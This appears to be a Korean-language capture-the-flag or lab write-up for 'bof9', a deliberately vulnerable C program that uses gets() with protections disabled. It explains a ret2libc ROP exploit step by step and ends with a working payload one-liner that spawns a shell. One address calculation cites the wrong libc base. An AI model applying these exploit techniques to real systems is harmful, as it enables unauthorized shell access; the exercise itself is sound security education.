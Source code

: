 # bof9

<details>
<summary>bof9.c</summary>

```c
// AFTER => bof8.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 8

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF

char * binsh = "/bin/sh";

void vuln(void) {
    char buf[BUF_SIZE];

    if (setreuid(1010, 1010)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1010, 1010)) {
        perror("setgid");
        exit(1);
    }
    printf("system:%p\n", system);
    printf("binsh:%p\n", binsh);
    gets(buf);
    printf("Hello %s!\n", buf);
}

int main(void) {
    vuln();
    return 0;
}
```

</details>

위 코드를 보면 버퍼오버플로우에 취약한 gets함수가 존재한다는 것을 알 수 있다. 그리고 코드 내에는 쉘을 실행시킬만한 방법이 존재하지 않는 것 같다. 다음과 같은 방식으로 쉘을 탈취해보자.

1. buf부터 ret의 주소값의 차이를 알아낸다.
2. ret을 (pop rdi ; ret)의 값이 있는 주소로 바꾼다.
3. ret 위 8바이트에 /bin/sh의 문자열로 바꾼다.
4. 그 위 8바이트에 system함수의 주소로 바꾼다.

그러면 위와 같은 순서로 해보자.

1
===

ret주소
![](./image/1.png)

gets의 rdi 주소(buf의 주소) -> rbp - 0x8

![](./image/2.png)

rbp - 0x8의 주소

![](./image/3.png)

두 주소의 차이

![](./image/4.png)

2
===

```
ROPgadget.py --binary /tmp/2.23/lib/libc.so.6 | grep 'pop rdi ; ret'
```

위를 실행한 결과 아래 그림에서 0x0000000000021102이라는 주소에 pop rdi ; ret값이 들어있는 것을 확인 할 수 있다.

![](./image/5.png)

gdp내에서 grep pop을 한 결과 /tmp/2.23/lib/libc.so.6'(0x7ffff7a0d000-0x7ffff7bcd000)이러한 곳에 존재한다는 것을 확인할 수 있다. 그 밑에는 vmmap을 통해 메모리를 확인해 보았다.

![](./image/6.png)

따라서 위 두 과정을 통해 실질적으로 ./bof9를 실행시켰을 때 pop rdi ; ret이 존재하는 주소는 0x7ffff7bcd000 + 0x0000000000021102 = **0x7ffff7a2e102**인 것을 확인 할 수 있다.

3, 4
===

bof9를 실행시켜 binsh의 주소값과 system의 주소값을 알 수 있다.

![](./image/7.png)

페이로드
===

3~4번의 과정을 통해 다음과 같은 페이로드를 얻을 수 있다.

```
(python -c "print 'x'*16 + '\x02\xe1\xa2\xf7\xff\x7f\x00\x00' + '\x04\x60\x55\x55\x55\x55\x00\x00' + '\x90\x23\xa5\xf7\xff\x7f'" ; cat) | ./bof9
```

+exit을 했을 때 세그폴트가 뜨는 이유가 궁금하다. 

![](./image/8.png)
